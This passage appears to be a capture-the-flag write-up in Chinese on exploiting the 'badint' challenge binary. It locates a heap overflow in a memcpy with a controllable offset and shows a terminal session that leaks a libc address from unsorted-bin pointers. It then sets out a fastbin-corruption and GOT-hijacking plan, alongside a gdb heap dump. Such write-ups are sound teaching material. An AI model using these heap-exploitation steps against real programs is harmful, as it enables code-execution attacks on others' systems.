 ```

*** Error in `./badint': free(): invalid next size (fast): 0x000000000224a0c0 ***
```

看起來是因為 heap overflow 的關係導致 `free()` 在檢查 nextsize 時發現錯誤，直接 abort 程式。經分析後發現漏洞發生在以下程式碼:

```c
 len = get_len(cur_obj);
 data = get_data(cur_obj);
 offset = get_offset(cur_obj);
 memcpy(new_buf + offset, data, len); // <-- 這裡
```

程式在複製 data 進 heap buffer 時，採用 `memcpy(new_buf + offset, data, len)` 這樣的形式進行複製。因為 `offet` 我們可控的關係，因此我們可以指定複製的起點，進而觸發 heap overflow 漏洞。

## Exploit
首先來 leak address 吧。透過以下操作，我們可以 leak 出 libc 的 address:

```
$ ./badint 
SEQ #: 1
Offset: 8
Data: 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
LSF Yes/No: Yes
RX PDU [1] [len=144]
Assembled [seq: 1]: 788ba4952b7f000011111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111

SEQ #:
```

我們將 offset 設定為 8，之後程式會將 data 複製進 `heap_buf+8`。其中，`heap_buf` 為一個被重新 allocate 的 unsortbin chunk，因此其 `fd` 跟 `bk` 均會包含 libc address ( 實際上為 `main_arena+88` )。此時我們將 data 複製進 `heap_buf` 時，只有 `bk` 會被蓋掉，因此之後程式印出 assebled 的 data 時，會將 `fd` 的內容給 leak 出來，我們就拿到了 libc 的 address。

之後要來想辦法控制程式流程。這裡我是利用 fastbin corruption 搭配 GOT hijacking 來達到這件事。首先我們想辦法排出類似下面的 heap layout:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0xc26cc0 --> 0x0
(0x40)     fastbin[2]: 0xc26c80 --> 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0xc26c20 --> 0x0   
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0xc26f10 (size : 0x1c0f0) 
       last_remainder: 0xc26e00 (size : 0x50) 
            unsortbin: 0x0
gdb-peda$ 
```
